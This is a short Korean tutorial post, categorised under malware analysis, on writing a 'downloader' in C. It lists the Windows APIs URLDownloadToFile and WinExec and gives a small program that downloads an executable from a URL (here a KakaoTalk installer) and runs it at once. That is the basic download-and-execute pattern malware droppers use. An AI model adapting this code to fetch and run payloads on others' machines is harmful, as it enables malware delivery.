 ```yaml
---
title: C로 Downloader 만들기
categories: 
 - Malware Analysis
 - Malware
tags:
 - Downloader
---
```


## Downloader

Downloader는 프로그램을 자동으로 다운로드 받게 할 수 있는 프로그램이다.

### 주요 API

- URLDownloadToFile : 인터넷에서 바이너리 형태로  다운로드하여 파일에 저장
- WinExec : 지정한 응용 프로그램을 실행

### 소스 코드

```c
#include <windows.h>

#pragma comment(lib,"urlmon.lib")

int main()
{
    LoadLibrary(L"urlmon.dll");
    HRESULT hResult = URLDownloadToFile(
                            0,
                            L"http://app.pc.kakao.com/talk/win32/KakaoTalk_Setup.exe",
                            L"c:\\Program Files\\a.exe",0,0); // 바이너리 형태로 다운로드
    WinExec("c:\\Program Files\\a.exe",SW_SHOW);  //프로그램 실행
    return 0;
}

```


